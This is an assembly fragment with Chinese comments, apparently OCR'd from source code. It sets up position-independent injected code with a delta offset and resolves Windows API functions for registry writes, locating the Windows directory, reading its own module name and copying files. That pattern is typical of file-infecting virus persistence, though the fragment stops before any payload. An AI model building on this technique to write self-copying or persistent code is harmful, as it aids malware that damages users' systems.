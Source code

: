 ```assembly
    pop ebp
    sub ebp,offset @B
    
    ;首先获取ADVAPI32.dll、kernel32.dll和user32.dll的基址

    lea eax,[ebp+szADVAPI32]
    push eax
    call LoadLibrary              ;！！！！！！！！！需要修正
    mov [ebp+hDllADVAPI32],eax

    lea eax,[ebp+szUser32]
    push eax
    call LoadLibrary              ;！！！！！！！！！需要修正
    mov [ebp+hDllUser32],eax

    lea eax,[ebp+szKernel32]
    push eax
    call LoadLibrary              ;！！！！！！！！！需要修正
    mov [ebp+hDllKernel32],eax
    
    ;获得几个函数的内存地址
    lea eax,[ebp+szRegCreateKey]
    push eax
    mov eax,[ebp+hDllADVAPI32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_RegCreateKey],eax

    lea eax,[ebp+szRegSetValueEx]
    push eax
    mov eax,[ebp+hDllADVAPI32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_RegSetValueEx],eax
   
    lea eax,[ebp+szMessageBox]
    push eax
    mov eax,[ebp+hDllUser32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_MessageBox],eax

    lea eax,[ebp+szGetWindowsDirectory]
    push eax
    mov eax,[ebp+hDllKernel32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_GetWindowsDirectory],eax

    lea eax,[ebp+szGetModuleFileName]
    push eax
    mov eax,[ebp+hDllKernel32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_GetModuleFileName],eax
   
    lea eax,[ebp+szCopyFile]
    push eax
    mov eax,[ebp+hDllKernel32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_CopyFile],eax

```